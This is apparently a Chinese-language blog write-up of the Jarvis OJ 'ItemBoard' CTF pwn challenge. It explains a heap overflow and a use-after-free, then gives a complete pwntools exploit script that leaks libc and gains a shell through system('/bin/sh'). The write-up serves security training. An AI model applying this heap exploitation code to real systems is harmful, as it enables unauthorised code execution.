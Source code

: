 ```yaml
---
title: Jarvis OJ - ItemBoard の Write-Up
date: 2020-10-20 16:45:47
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Heap
---
```

## Introduction

一道比较简单的堆溢出的题目，主要是配合测试下小工具[LibcOffset](https://github.com/Coldwave96/LibcOffset)，一个用来计算各个版本的libc文件main_arena offset的Python脚本。

<!-- more -->

程序运行截图：看起来是一道典型的堆溢出题目

![](/img/ItemBoard/ItemBoard1.png)

checksec：64位程序，有DEP和ASLR保护机制

![](/img/ItemBoard/ItemBoard2.png)

## Analysis

将程序通过IDA Pro逆向查看伪代码，首先是main函数：

![](/img/ItemBoard/ItemBoard3.png)

new_item函数创建新的item：

![](/img/ItemBoard/ItemBoard4.png)

list_item列出所有的item：

![](/img/ItemBoard/ItemBoard5.png)

show_item展示具体的item：

![](/img/ItemBoard/ItemBoard6.png)

remove_item函数删除item：

![](/img/ItemBoard/ItemBoard7.png)

通过初步的分析发现代码中存在两处问题：

* 一是在new_item函数中buf的大小是1024，但是函数中并没有限制content_len的大小，所以当输入内容超过buf大小之后会造成缓冲区溢出，被利用构造ROP Chain。

* 二是在remove_item函数中本该释放item指针的set_null函数实际上却是个空函数，所以实际上这个函数并没有什么用，存在UAF漏洞。

结合题目给出了libc.so文件，大体上的思路是利用UAF泄露基地址和libc地址，进而获取system函数的地址。再利用UAF或者ROP Chain执行system函数getshell。

利用自己编写的小工具[LibcOffset](https://github.com/Coldwave96/LibcOffset)查询本地以及题目给的libc文件的main_arena_offset。

本地调试环境：

![](/img/ItemBoard/ItemBoard8.png)

题目给的是glibc 2.19版本的：

![](/img/ItemBoard/ItemBoard9.png)

## Solution

这里只记录通过UAF get shell的方法：

```Python
# coding:utf-8
from pwn import *

local = 0

if local:
    sh = process('./itemboard')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    offset = 0x3c4b20
else:
    sh = remote('pwn2.jarvisoj.com', '9887')
    libc = ELF('./libc-2.19.so')
    offset = 0x3c2760

elf = ELF('./itemboard')

def Add(name, len, conts):
    sh.recvuntil('choose:\n')
    sh.sendline('1')
    sh.recvuntil('Item name?\n')
    sh.sendline(name)
    sh.recvuntil("Description's len?\n")
    sh.sendline(str(len))
    sh.recvuntil('Description?\n')
    sh.sendline(conts)

def List():
    sh.recvuntil('choose:\n')
    sh.sendline('2')

def Show(num):
    sh.recvuntil('choose:\n')
    sh.sendline('3')
    sh.recvuntil('Which item?\n')
    sh.sendline(str(num))

def Remove(num):
    sh.recvuntil('choose:\n')
    sh.sendline('4')
    sh.recvuntil('Which item?\n')
    sh.sendline(str(num))

# Libc地址 + system地址
Add('1', 0x80, 'a' * 8)
Add('2', 0x80, 'b' * 8)
Remove(0)
Show(0)

sh.recvuntil('Description:')
leak_addr = u64(sh.recv(6).ljust(8, '\x00'))

libc_addr = leak_addr - 88 - offset
sys_addr = libc_addr + libc.symbols['system']

# UAF get shell
Add('cccc', 32, 'cccc')
Add('dddd', 32, 'dddd')
Remove(2)
Remove(3)

Add('eeee', 24, '/bin/sh;' + 'eeeeeeee' + p64(sys_addr))
Remove(2)

sh.interactive()
sh.close()
```

运行结果：

![](/img/ItemBoard/ItemBoard10.png)
